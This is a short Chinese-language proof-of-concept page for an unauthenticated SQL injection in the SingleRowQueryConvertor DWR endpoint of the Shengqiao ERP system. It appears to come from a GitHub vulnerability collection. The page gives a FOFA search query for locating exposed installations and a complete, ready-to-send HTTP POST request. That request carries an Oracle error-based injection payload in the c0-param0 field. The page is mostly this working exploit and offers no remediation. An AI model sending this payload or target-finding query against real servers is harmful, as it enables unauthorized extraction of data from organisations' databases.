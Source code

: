 # 圣乔ERP系统SingleRowQueryConvertor存在SQL注入漏洞

圣乔ERP系统 SingleRowQueryConvertor接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息

## fofa

```javascript
title="圣乔ERP系统"
```

## poc

```javascript
POST /erp/dwr/call/plaincall/SingleRowQueryConvertor.queryForString.dwr HTTP/1.1
Host: 
Content-Type: text/plain
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0

callCount=1
page=/erp/dwr/test/SingleRowQueryConvertor
httpSessionId=
scriptSessionId=D528B0534A8BE018344AB2D54E02931D86
c0-scriptName=SingleRowQueryConvertor
c0-methodName=queryForString
c0-id=0
c0-param0=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(106)||CHR(122)||CHR(122)||CHR(113)||(SELECT (CASE WHEN (99=99) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(118)||CHR(122)||CHR(118)||CHR(113)||CHR(62))) FROM DUAL)
c0-param1=Array:[]
batchId=0
```

![image-20241211210352012](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112103078.png)